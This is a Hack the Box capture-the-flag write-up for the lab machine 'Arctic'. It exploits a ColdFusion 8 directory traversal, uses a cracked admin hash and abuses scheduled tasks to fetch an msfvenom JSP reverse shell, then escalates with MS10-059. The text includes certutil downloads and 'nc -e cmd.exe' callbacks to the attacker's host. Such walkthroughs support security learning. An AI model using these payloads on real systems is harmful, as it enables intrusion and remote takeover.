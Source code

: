 ```yaml
---
title: Arctic
tags: windows
description: Write-up for Hack the Box - Arctic
---
```


![image](assets/79369276-b1fb3c00-7f1e-11ea-94ee-c1afe128f2a3.png)

## Overview

Arctic is a Windows box running IIS and Cold Fusion 8.0.1. This version of Cold Fusion is vulnerable to directory traversal vulnerability that exposes the admin password hash. The cracked hash was found with a quick internet search and once logged in I was able to abuse the "schedule tasks" functionality of Cold Fusion to get a reverse shell. I used Windows-Exploit-Suggester (wes) to identify a list of potential exploits and used MS10-059 to create a reverse shell as 'nt authority\system'.

## Enumeration

* Microsoft Windows Server 2008 R2 Standard 6.1.7600 N/A Build 7600
* Cold Fusion 8.0.1.195765
* Java Version: 1.6.0_04

**Open Ports**

```
nmap -vv -Pn -sT -A --osscan-guess -p- 10.10.10.11 -oN /mnt/data/boxes/arctic/_full_tcp_nmap.txt
```

* 135/tcp - Microsoft Windows RPC
* 8500/tcp - http (Cold Fusion)
* 49154/tcp - Microsoft Windows RPC

## Steps (User)

After reviewing the nmap results I decide to start with port 8500. Opening a web browser and directing it to http://10.10.10.11:8500 shows a directory listing.

![image](assets/79500422-64540180-7ffa-11ea-83cc-435d71b3a208.png)

Clicking through some of the folders I came across http://10.10.10.11:8500/CFIDE/administrator which brought me to an Adobe Coldfusion 8 Administrator login page. 

![image](assets/79500694-dd535900-7ffa-11ea-8abd-10027b171c13.png)

I tried some common passwords (admin,password,etc) but none worked. A quick internet search for "coldfusion 8 exploit" turned up a directory traversal vulnerability

https://www.exploit-db.com/exploits/14641

I decided not to modify the python script because it was simple enough to paste the path directly into my browser - which revealed the password hash right on the logon page. 

http://10.10.10.11/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en

![image](assets/79500848-21def480-7ffb-11ea-9bb3-c8269e025e51.png)

Doing an internet search for the password hash is always worth a shot, in this case i came across a site that had already cracked the hash (sha1.gromweb.com) which I used to log in.

![image](assets/79501178-a03b9680-7ffb-11ea-9df7-f0b1b1986cc5.png)

```
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 (happyday)
```

Doing some searching on Cold Fusion 8 exploits I found that a scheduled task can be created to write data to a file which could be executed to create a reverse shell. https://nets.ec/Coldfusion_hacking. This requires that I host the file (via http) that I want to be copied to the target system.

> Note: There is an extra step if using an exe. Create a system probe that launches an .exe upon failure. The payload created with msfvenom needs to be created accordingly: msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=4200 -f exe -o shell_reverse.exe

To generate the payload I used MSFVenom and started up the python http server.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.13 LPORT=4200 -o rshell.jsp
python3 -m http.server 80
```

I needed to find a path I could write to which this page very helpfully provided: http://10.10.10.11:8500/CFIDE/administrator/reports/index.cfm

![image](assets/79502019-070d7f80-7ffd-11ea-853f-44937b92323a.png)

**Steps to create the task**

* Click Debugging & Logging | Scheduled Tasks
* Click "Schedule New Task"
* Type in a task name
* Type in the path and name for the jsp file http://10.10.14.13/rshell.jsp
* Type in the path and name of the file: c:\wwwroot\CFIDE\rshell.jsp
* Click submit

![image](assets/79504054-34a7f800-8000-11ea-8233-d051bd0da304.png)

On the main schedule screen click "Run Scheduled Task"

![image](assets/79504117-4c7f7c00-8000-11ea-8187-60a3505d7daf.png)

The task ran successfully and downloaded the rshell.jsp file to the CFIDE folder

![image](assets/79504243-923c4480-8000-11ea-8ddc-accb190e8aa3.png)

I started up a netcat listener and clicked on the rshell.jsp file to run it and the target successfully called back.

```
nc -lvnp 4200
```

![image](assets/79504839-7b4a2200-8001-11ea-9927-74918dc44d42.png)

## Steps (root/system)

Since this is an older box I used Windows Exploit Suggester. For newer boxes there are other options such as wesng, Sherlock, or Watson.

According to wesng github page:

> I developed WES-NG because while GDSSecurity's Windows-Exploit-Suggester worked excellently for operating systems in the Windows XP and Windows Vista era, GDSSecurity's Windows-Exploit-Suggester does not work for operating systems like Windows 10 and vulnerabilities published in recent years. This is because Microsoft replaced the Microsoft Security Bulletin Data Excel file [1] on which GDSSecurity's Windows-Exploit-Suggester is fully dependent, by the MSRC API [2]. The Microsoft Security Bulletin Data Excel file has not been updated since Q1 2017, so later operating systems and vulnerabilities cannot be detected. 

Moving forward with wes; this tool requires the output of the systeminfo command which I pasted to a file called "sysinfo.txt"

> [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) github repo.

```
./windows-exploit-suggester.py -l --database 2019-11-17-mssb.xls --systeminfo sysinfo.txt
```

![image](assets/79505874-142d6d00-8003-11ea-82b3-1f7de8280abe.png)

> In the results [E] means exploitdb POC, and [M] means metasploit module.

This box appears to be vulnerable to MS10-059 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing. 

I put a copy of the exploit and netcat into my working directory and used the certutil utility to download them to the target box.

```
local: cp ~/tools/windows-binaries/nc.exe .
local: wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
local: nc -lvnp 4201
target: certutil -urlcache -split -f http://10.10.14.13/MS10-059.exe
target: certutil -urlcache -split -f http://10.10.14.13/nc.exe
```

This exploit takes a parameter and runs it in an elevated context. I decided to go with netcat to create a reverse shell.

```
ms10-059.exe "nc -e cmd.exe 10.10.14.13 4201"
```

I received a callback and had a shell as 'nt authority/system'

![image](assets/79507638-13e2a100-8006-11ea-8a9b-1f7a588b4516.png)
